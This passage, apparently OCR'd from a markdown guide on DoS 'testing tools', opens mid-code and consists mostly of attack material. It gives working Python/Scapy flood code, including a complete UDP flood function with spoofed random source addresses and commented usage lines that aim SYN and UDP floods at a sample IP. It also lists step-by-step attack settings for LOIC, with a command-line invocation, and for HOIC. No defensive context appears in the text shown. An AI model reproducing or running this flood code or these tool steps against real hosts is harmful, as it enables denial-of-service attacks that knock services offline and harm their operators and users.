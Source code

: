 ```python
        send(packet, verbose=0)
        
        if i % 1000 == 0:
            print(f"Sent {i} packets")

def udp_flood(target_ip, target_port, packet_count):
    """UDP flood attack using Scapy"""
    for i in range(packet_count):
        source_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        source_port = random.randint(1024, 65535)
        
        # Create UDP packet with random data
        packet = IP(src=source_ip, dst=target_ip) / UDP(sport=source_port, dport=target_port) / Raw(load="X" * 1024)
        
        send(packet, verbose=0)

# Usage examples
# syn_flood("192.168.1.100", 80, 10000)
# udp_flood("192.168.1.100", 53, 5000)
```

### Application Layer Testing Tools

#### LOIC (Low Orbit Ion Cannon)
```bash
# LOIC is a GUI application - configuration steps:
# 1. Set target IP or URL
# 2. Select attack method:
#    - TCP: Traditional TCP flood
#    - UDP: UDP packet flood  
#    - HTTP: Application layer attack
# 3. Configure parameters:
#    - Port number
#    - Threads
#    - Speed
# 4. Start attack

# Command line alternative
# mono LOIC.exe /target:192.168.1.100 /port:80 /method:tcp /threads:10
```

#### HOIC (High Orbit Ion Cannon)
```bash
# HOIC features:
# - Multiple target URLs (up to 256)
# - Booster scripts for enhanced attacks
# - HTTP POST/GET flood capabilities
# - User-agent randomization

# Configuration steps:
# 1. Add target URLs
# 2. Load booster scripts
# 3. Configure attack power
# 4. Launch coordinated attack
```
